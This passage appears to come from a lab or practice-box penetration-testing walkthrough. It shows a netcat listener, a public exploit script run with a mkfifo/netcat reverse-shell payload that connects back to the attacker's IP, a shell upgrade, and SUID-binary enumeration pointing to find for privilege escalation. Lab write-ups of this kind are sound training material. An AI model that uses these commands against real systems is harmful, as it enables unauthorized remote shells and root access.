* We can see that we succeeded!
* That then reminds me that we can go back and utilize the exploit with the -c command now that we have credentials!

#### Exploitation:

Netcat Listener:

```
nc -lnvp 80
```

[50847.py](http://50847.py)

```
python3 50847.py -i 192.168.78.47 -p 5437 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.78 80 >/tmp/f'
```

We catch a shell! — Proof!

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8472fd22-6671-4e53-a434-1b4f111cad1e/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c53a7438-7aa8-40fd-943d-94572e296463/Untitled.png)

#### Privilege Escalation:

Upgrade to a more stable shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

SUID Binaries:

```
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \\;

< -perm -4000 -type f -exec ls -la {} 2>/dev/null \\;
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 51184 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 34896 Jan  7  2019 /usr/bin/fusermount
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 315904 Feb 16  2019 /usr/bin/find
-rwsr-xr-x 1 root root 157192 Feb  2  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
```

* I remember from a previous box I had done, that find can be exploited in various ways to escalate your privileges.
* “It can be used to break out from restricted environments by spawning an interactive system shell.”
